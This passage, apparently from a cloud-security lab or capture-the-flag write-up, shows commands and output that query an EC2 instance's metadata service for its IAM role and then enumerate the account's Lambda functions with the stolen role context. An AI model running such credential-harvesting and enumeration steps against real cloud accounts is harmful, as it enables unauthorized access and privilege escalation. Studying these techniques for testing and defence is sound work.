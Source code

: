 This is successful. Let's enumerate the IAM role. 

```bash
root@ip-172-31-23-45:~# curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/info
{
  "Code" : "Success",
  "LastUpdated" : "2022-04-11T10:59:47Z",
  "InstanceProfileArn" : "arn:aws:iam::852948644505:instance-profile/LambdaRole",
  "InstanceProfileId" : "AIPA4NF5TOKMTZVQUJG6D"
}
```

We see that the `LambdaRole` is attached to this instance. Get the credentials and configure them. Since it named based on `Lambda` service its obvious to enumerate the Lambda Functions or else we can go hard way enumerating using enumeration tools. Let's list the Lambda functions by issuing below command.

```bash
aws lambda list-functions
{
    "Functions": [
        {
            "FunctionName": "StatusChecker",
            "FunctionArn": "arn:aws:lambda:us-east-1:852948644505:function:StatusChecker",
            "Runtime": "nodejs14.x",
            "Role": "arn:aws:iam::852948644505:role/LambdaExecutionRole",
            "Handler": "index.handler",
            "CodeSize": 311,
            "Description": "",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2022-04-11T11:42:03.905+0000",
            "CodeSha256": "1e6/l2sBlAldp0u4mpy8jCELdaBavDUvojKwRRvIaxI=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "fe5b98b0-5f52-4c7b-bc70-eae43c05ad6d",
            "PackageType": "Zip",
            "Architectures": [
                "x86_64"
            ],
            "EphemeralStorage": {
                "Size": 512
            }
        }
    ]
}
```

We see that there is a function called `StatusChecker` present. Let's see if we can invoke the function. 
